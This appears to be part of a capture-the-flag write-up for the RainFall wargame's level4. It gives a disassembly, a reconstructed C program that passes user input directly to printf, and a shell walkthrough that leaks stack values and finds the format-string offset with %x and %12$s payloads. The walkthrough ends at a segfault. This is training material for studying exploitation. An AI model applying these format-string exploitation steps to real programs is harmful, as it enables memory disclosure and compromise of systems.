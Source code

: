 ```bash
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	sub    esp,0x18 ; Allocate 24 bytes on the stack
   0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8] ; Set eax to the first argument passed to p()
   0x0804844d <+9>:	mov    DWORD PTR [esp],eax ; Set eax to the 1st argument of printf()
   0x08048450 <+12>:	call   0x8048340 <printf@plt> ; call printf(eax)
   0x08048455 <+17>:	leave
   0x08048456 <+18>:	ret
End of assembler dump.
```

### Equivalent C source code

```c
#include <stdio.h>

unsigned int m = 0;

void	p(void *fmt) {
	printf(fmt);
}

void	n(void) {
	unsigned char buffer[536];

	fgets(&buffer[16], 512, stdout);
	p(&buffer[16]);
	if (m == 16930116) {
		system("/bin/cat /home/user/level5/.pass");
	}
}

int		main(int ac, char **av) {
    n();
}

```

### Walkthrough

```bash
level4@RainFall:~$ python -c 'print "%x "*50' > /tmp/lol

level4@RainFall:~$ gdb ./level4
(gdb) run < /tmp/lol
b7ff26b0 bffff6d4 b7fd0ff4 [0 0] bffff698 804848d bffff490 200 b7fd1ac0 b7ff37d0 25207825 78252078 20782520 25207825 78252078 ....

# We can think our m global variable is one of these two zeros

level4@RainFall:~$ echo -n -e '\x42\x42\x42\x42%4$s' >  /tmp/lol ; cat /tmp/lol | ./level4  | xxd
0000000: 4242 4242 286e 756c 6c29                 BBBB(null) # The program should segfault by reading the address 0x42424242 after printing BBBB


# Let's do a quick for to find the real offset of the string passed to p()
level4@RainFall:~$ (for i in $(seq 1 500); do echo -n "$i: "; echo -n -e "BBBB%$i\$x" | ./level4; echo; done;) | grep 42424242
12: BBBB42424242

# Try again ...
level4@RainFall:~$ echo -n -e '\x42\x42\x42\x42%12$s' >  /tmp/lol ; cat /tmp/lol | ./level4
Segmentation fault (core dumped)

```